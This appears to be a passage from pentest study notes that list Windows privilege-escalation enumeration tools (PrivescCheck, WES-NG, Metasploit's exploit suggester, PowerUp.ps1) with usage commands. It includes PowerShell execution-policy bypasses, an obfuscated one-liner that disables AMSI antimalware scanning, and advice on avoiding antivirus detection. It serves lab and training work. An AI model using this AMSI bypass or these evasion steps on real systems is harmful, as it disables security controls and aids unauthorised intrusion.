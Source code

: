 - [PrivescCheck](https://github.com/itm4n/PrivescCheck)  
    PrivescCheck is a PowerShell script that searches common privilege escalation on the target system. It provides an alternative to WinPEAS without requiring the execution of a binary file.  
    ```
    PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
    PS C:\> . .\PrivescCheck.ps1
    PS C:\> Invoke-PrivescCheck
    ```  

- [WES-NG](https://github.com/bitsadmin/wesng): Windows Exploit Suggester - Next Generation  
    Some exploit suggesting scripts (e.g. winPEAS) will require you to upload them to the target system and run them there. This may cause antivirus software to detect and delete them. To avoid making unnecessary noise that can attract attention, you may prefer to use WES-NG, which will run on your attacking machine (e.g. Kali or TryHackMe AttackBox).  
    Once installed, and before using it, type the `wes.py --update` command to update the database. The script will refer to the database it creates to check for missing patches that can result in a vulnerability you can use to elevate your privileges on the target system.

    To use the script, you will need to run the `systeminfo` command on the target system. Do not forget to direct the output to a .txt file you will need to move to your attacking machine.  
    ```
    user@kali$ wes.py systeminfo.txt
    ```  
- Metasploit  
    If you already have a Meterpreter shell on the target system, you can use the `multi/recon/local_exploit_suggester` module to list vulnerabilities that may affect the target system and allow you to elevate your privileges on the target system.
- [PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)  
    PowerUp.ps1 is a program that enables a user to perform quick checks against a Windows machine for any privilege escalation opportunities.
    <details>
    <summary>Usage</summary>
    
    ```  
    # Bypasse PowerShell’s execution policy
    PS C:\> powershell -ep bypass
    # Disable AMSI
    sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
    # Runnnig PowerUp.ps1
    PS C:\> Import-Module PowerUp.ps1
    PS C:\> . .\PowerUp.ps1
    PS C:\> Invoke-AllChecks
    ```  

    </details>
